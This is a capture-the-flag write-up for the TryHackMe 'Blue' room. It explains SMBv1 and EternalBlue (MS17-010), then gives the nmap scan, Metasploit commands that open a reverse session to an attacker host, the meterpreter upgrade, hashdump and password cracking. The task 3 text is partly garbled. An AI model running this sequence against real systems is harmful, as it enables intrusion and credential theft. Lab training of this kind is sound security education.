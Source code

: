 A guided write to the "Blue" room on THM
TryHackMe Room: https://tryhackme.com/room/blue

# Background on Eternal Blue
Server Message Block (SMB) is a network protocol used by Windows systems to share files, printers, and other resources over a network. It allows a client to request access to files or services on a server, and the server responds with the requested data or action. SMB operates over TCP ports 139 and 445, with modern systems using port 445 by default.

The protocol manages authentication, communication, and data transfer between systems. It supports operations like reading and writing files, creating directories, and controlling printers. SMB also handles inter-process communication through named pipes, which lets applications on different machines communicate.

SMBv1, the earliest version, is outdated and has weak security controls. It trusts input too easily and does not handle malformed requests safely. These weaknesses led to critical exploits like EternalBlue. Later versions, SMBv2 and SMBv3, improved efficiency and added stronger security measures, including encryption and better authentication methods.

EternalBlue specifically abuses the way SMBv1 processes specially crafted packets. By sending malicious requests, an attacker triggers a buffer overflow that allows them to execute arbitrary code on the target system with high privileges. This makes SMB both essential in Windows environments and a high-value target when unpatched.

# task 1 (recon) 
Objective: Identify open ports, services, and potential vulnerabilities on the target machine.

Command Used:
```bash
nmap --script="vuln" -sV -sC -A -T5 10.10.56.99
```

Explanation of Flags:
--script="vuln": Runs vulnerability scripts to check for known weaknesses.

-sV: Detects service versions.

-sC: Runs default scripts for additional info.

-A: Enables OS detection, version detection, script scanning, and traceroute.

-T5: Increases scan speed.

Scan Results Summary:
![alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20114952%20-%20Copy.png)

Observations:
* SMB ports (139/445) are open, making it a primary target.

* RDP (3389) is tcpwrapped — needs credentials.

* RPC ports (135 + high range) are open but not directly exploitable without authentication.
Key takeaway:
MS17-010 is the exploitable vector. This allows remote code execution via SMBv1 without authentication in many cases.

# Task 2 Gain Access
Task 2 – Gaining Access (THM Writeup)
Objective

The goal of this task was to gain access to the target Windows machine by exploiting a known vulnerability in the SMBv1 service, specifically MS17-010, also known as EternalBlue.

Steps Taken

Starting the Exploitation
The first step involved opening the Metasploit Framework, a commonly used exploitation tool. This allowed access to a large set of pre-built exploits and payloads specifically designed for known vulnerabilities like MS17-010.

Finding the Correct Exploit
Within the framework, a search was conducted to locate the exploit module that targets MS17-010. The module designed for Windows SMBv1 was selected as it matched the target system’s open SMB port and version.

Reviewing Module Requirements
Before running the exploit, the module options were reviewed. This included confirming the target IP, the port on which SMB was running, and the payload to use for gaining a session. It is important to verify these details to ensure the exploit runs successfully.

Setting Up the Exploit
The exploit module was configured with the target machine’s IP and a payload that would create a remote session back to the attacking machine. This step ensures that, when the exploit succeeds, access is granted in a controlled and predictable way.

Launching the Exploit
The exploit was executed against the target machine. Due to the vulnerability in SMBv1, the exploit successfully triggered remote code execution, providing a session on the system.

the following lines of code was used minus the output are
```bash
msfconsole
search ms17-010
use 0
show options
set RHOST 10.10.56.99
Set LHOST 10.8.196.205
exploit
```
![alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20121655.png)
# Task 3 (Privlage Escalation)
By using one of the post exploitation modules, we will upgrade our shell to meterpreter shell

```bash
search shell_to_meterpreter
```

we can see list of modules, there we find only one module, shown below

post/multi/manage/shell_to_meterpreter
![alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20123638.png)
![alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20123703.png)
As giHere we need to set the “SESSION” also the LHOST

After setting all these, we will Exploit to get the meterpreter shellven below to interact with the module we will be using “use 0” and then show options, what options we will be required to change ?
![alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20140530.png)
# task 4 cracking
As said to run the command “hashdump” these command had dumped three user names along with the encrypted passwords, we need to crack the encrypted password and find out the answer.
![alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202025-09-09%20140530.png)
 I cracked the password with the help from john the ripper 
![alt text](https://github.com/L33-a/TryHackMe-Writeups/blob/main/writeups/Blue/Screenshot%202024-02-22%20181804.png)
 # task 5 (flag)
 we have have full access to the computer we can access the flags

